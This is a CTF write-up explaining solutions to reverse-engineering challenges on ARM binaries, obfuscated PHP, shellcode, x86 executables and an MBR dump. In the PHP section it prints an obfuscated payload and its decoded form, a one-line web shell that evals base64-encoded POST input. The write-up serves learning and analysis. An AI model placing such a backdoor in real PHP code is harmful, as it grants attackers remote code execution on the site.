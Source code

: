 # Dakota State University and University of Nebraska-Kearny Reverse Engineering CTF 2017

This CTF was fun :D

I managed to solve all the challenges but some guy named *Nick* managed to
finish before me so he got moar points.
To my defense, I was playing in a totally different timezone.

Most of the challenges involved obfuscated (pseudo-)malware so there's no much
point in explaining how I gradually deobfuscated them.
They were simple enough to not require complex automated tools.

Some solutions are missing because I deleted the challenge file so I can't
review them, others because they require a lengthy manual process of analysis
that I can't really explain without writing a ton of text here.

## ARM

### Challenge 1

I don't remember anymore, but I recall the issue was check which one of the
flags embedded in the binary was the real one (instead of just submitting
the first you see).

### Challenge 2

In the `main()` for the binary, just keep track of the value of R0.
Each value is the ASCII value of a character of the flag.
In [arm_2.py](arm_2.py) I copied the interesting part of the disassembly and
I implemented a dumb DIY emulator.
Just run the script to get the flag.

### Challenge 3

This challenge is similar to the previous one, but the value of R0 is changed
in a ROP fashion.
I once again implemented a dumb emulator to unfold the ROP.
You can find it in [arm_3.py](arm_3.py).

## PHP

### Challenge 1

`index.php` includes an image as if it was a php file.
We open the image and keep the final part, which is valid PHP code.
Now we can replace `eval(...)` with `echo "$do_me\n";` and put the file inside
a php tag `<?php ...code... ?>`.

Now we can do `php image.php` and get
```php
$_= 'aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ==';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```

Replace `eval` with `print`, put in a php file and run it again:
```php
$code=base64_decode($_);eval($code);
```

Let's see what's inside the base64-encoded `$_` variable:
```bash
$ echo aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ== | base64 -d
if(isset($_POST["evil"])){eval(base64_decode($_POST["evil"]));/*evil@dsu.edu*/}
```

And there it is :)

### Challenge 2

This is similar to the previous, but more complicated.
Special care must be taken to avoid eval'ing code which we don't control, but I
managed to solve with the same "eval => print" style.

By the way, printing stuff as you go is also a technique which works for simple
javascript challenges.

## Shellcode

The flag is hidden in the final part of the outer function.
It runs two loops that reassemble the flag from the string at the end of the
binary.
The logic is reimplemented in [shellcode.py](shellcode.py).
The `shellcode` file is copied as-is from the challenge.
If you want me to remove it please contact me.

## x86

### Challenge 1

I deleted the file, but the flag is embedded as a string in it, so you can get
it by simply running `strings <filename> | grep @`.

### Challenge 2

The file for this challenge was an EXE requiring two different password, that
once contatenated formed the flag.

The first password was checked inside the function at `.text:00401120`.
It loads two hardcoded magic values in memory and then XORs them byte per byte.
One of the values read `DEADCODE` so this hints that we are in the right
direction.
I reimplemented the check in python inside [x86_2_0.py](x86_2_0.py).

The second password was checked in the function at `.text:00401210`.
I couldn't get the binary to get past the first check even if I had the correct
password so I simply modded the file to jump directly to the second check.
We don't really have to understand the function completely to solve the
challenge, because for every input character the application prints the value it
expected.
So I hacked together an ugly python script to bruteforce it char-by-char.
The final script is file [x86_2_1.py](x86_2_1.py).
It's really ugly but it works and I just wanted something quick to write.
**Note:** the script is supposed to be run on Linux with `wine` installed.

### Challenge 3

The file was the dump of a MBR.
You can easily verify it using `file <name of the file>`.
Once set up to run inside bochs, it started showing random-looking text:

![x86 screenshot](images/x86_3.png)

The 16-bit assembly code in the MBR is printing some weird strings using the
BIOS's built-in functionalities.
Basically, it starts from an hard-coded array of 16-bit words and cyclically
XOR them with the same key.
This key is incremented every time the string is printed to the screen.

At this point, I was lost for a good amount of hours (too many, actually) since
I couldn't think of a way to turn this knowledge into a valid flag.
I reimplemented the ASM logic in python but I was totally lost.
In desperation, I did the simplest thing I could do: discard all the strings
which contained non-printable ASCII characters.
To my surprise, only one such string was outputted by my script and its XOR key
was 0x1337, so I knew I found the correct value.

The final script to get the flag is implemented in [x86_3.py](x86_3.py).

